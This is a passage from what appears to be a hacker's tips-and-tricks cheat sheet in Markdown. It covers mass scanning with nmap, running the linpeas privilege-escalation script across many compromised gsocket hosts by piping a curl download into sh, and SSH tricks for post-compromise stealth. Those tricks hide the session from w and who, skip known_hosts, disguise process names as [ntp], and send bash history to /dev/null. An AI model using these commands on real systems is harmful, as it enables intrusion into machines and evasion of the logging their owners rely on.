 Scan 20 hosts in parallel and log each result to a separate log file:
```sh
# hosts.txt contains a long list of hostnames or ip-addresses
cat hosts.txt | parallel -j20 'exec nmap -n -Pn -sCV -F --open {} >nmap_{}.txt'
```
Note: The example uses `exec` to replace the underlying shell with the last process (nmap, gsexec). It's optional but reduces the number of running shell binaries.

Execute [Linpeas](https://github.com/carlospolop/PEASS-ng) on all [gsocket](https://www.gsocket.io/deploy) hosts using 40 workers:
```sh
# secrets.txt contains a long list of gsocket-secrets for each remote server.
cat secrets.txt | parallel -j40 'mkdir host_{}; exec gsexec {} "curl -fsSL https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh" >host_{}/linpeas.log 2>host_{}/linpeas.err'
```
Note: `xargs -P20 -I{}` is another good way but it cannot log each output into a separate file.  

---
<a id="ssh"></a>
## 2. SSH
<a id="ssh-invisible"></a>
**2.i. Almost invisible SSH**

Stops you from showing up in *w* or *who* command and stops logging the host to *~/.ssh/known_hosts*.
```sh
ssh -o UserKnownHostsFile=/dev/null -T user@server.org "bash -i"
```

Go full comfort with PTY and colors: `thcssh user@server.org`:

```sh
### Cut & Paste the following to your shell, then execute
### thcssh user@server.org
thcssh()
{
    local ttyp
    echo -e "\e[0;35mTHC says: pimp up your prompt: Cut & Paste the following into your remote shell:\e[0;36m"
    echo -e "PS1='"'\[\\033[36m\]\\u\[\\033[m\]@\[\\033[32m\]\\h:\[\\033[33;1m\]\\w\[\\033[m\]\\$ '"'\e[0m"
    ttyp=$(stty -g)
    stty raw -echo opost
    [[ $(ssh -V 2>&1) == OpenSSH_[67]* ]] && a="no"
    ssh -o UpdateHostKeys=no -o StrictHostKeyChecking="${a:-accept-new}" -T \
        "$@" \
        "unset SSH_CLIENT SSH_CONNECTION; TERM=xterm-256color BASH_HISTORY=/dev/null exec -a [ntp] script -qc 'exec -a [uid] /bin/bash -i' /dev/null"
    stty "${ttyp}"
}
```

<a id="ssh-master"></a>
**2.ii Multiple shells via 1 SSH/TCP connection**
